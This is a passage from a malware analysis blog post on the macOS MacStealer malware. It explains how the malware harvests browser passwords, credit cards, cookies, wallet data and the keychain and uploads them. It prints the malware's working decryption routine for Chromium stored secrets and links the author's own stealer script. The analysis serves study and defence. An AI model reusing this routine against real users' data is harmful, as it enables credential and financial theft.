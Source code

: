 At `(9)`, `Browsers.browser_data()` reads browser stored credentials, credit card details, and cookies from  `~/Library/Application\ Support/{Browser_name}/Default/Login\ Data`, `~/Library/Application\ Support/{Browser_name}/Default/Web\ Data`, and `~/Library/Application\ Support/{Browser_name}/Default/Cookies` respectively. Note that, login password, credit card number, and cookies values are stored in the encrypted format. It uses the corresponding browser keys obtained using  `keychain.py` to decrypt the encrypted data. 

I found the decryption quite interesting. Here, `encrypted` is cipher text that the malware decrypt using the `openssl` command. 

```python
# file en_data/browser.py

    def decrypter(self, encrypted, safe_storage_key):
        cipher_text = encrypted
        try:
            C = ''.join(('20', '20', '20', '20', '20', '20', '20', '20', '20', '20',
                         '20', '20', '20', '20', '20', '20'))
            D = hashlib.pbkdf2_hmac('sha1', safe_storage_key, b'saltysalt', 1003)[:16]
            E = binascii.hexlify(D)
            cipher_text_encoded = base64.b64encode(cipher_text[3:])
            try:
                G = "openssl enc -base64 -d -aes-128-cbc -iv '{}' -K {} <<< {} 2>/dev/null".format(C, E.decode(__utf8), cipher_text_encoded.decode(__utf8))
                B = subprocess.check_output(G, shell=True)
            except subprocess.CalledProcessError:
                B = cipher_text

```
The initialization vector is `20202020202020202020202020202020` and the 16-byte decryption key is derived from the `safe_storage_key` using the `PBKDF2` algorithm with SHA1 as the hash function, a salt of `saltysalt'`, and 1003 iterations of the hash function. I don't know how the malware author come up with these values but it works and successfully decrypts the stored encrypted text. 

It copies crypto wallet securely stored data (at `(10)`) to the temp folder. Next, it zips the temp folder which contains browsers' secret data, wallet data, the default keychain, passwords, and other sensitive information and uploads it to the server. 

### Conclusion
I wrote the [macos_browsers_secrets_stealer](https://github.com/timeoutFFFF/macos_browsers_secrets_stealer) script that utilizes the same method used by macstealer Malware to steal browser secrets and dumps them in CSV files. If you are interested in Mac malware, Patrick Wardle [blog post](https://objective-see.org/blog.html) and [book](https://taomm.org/) are great resources for learning.  
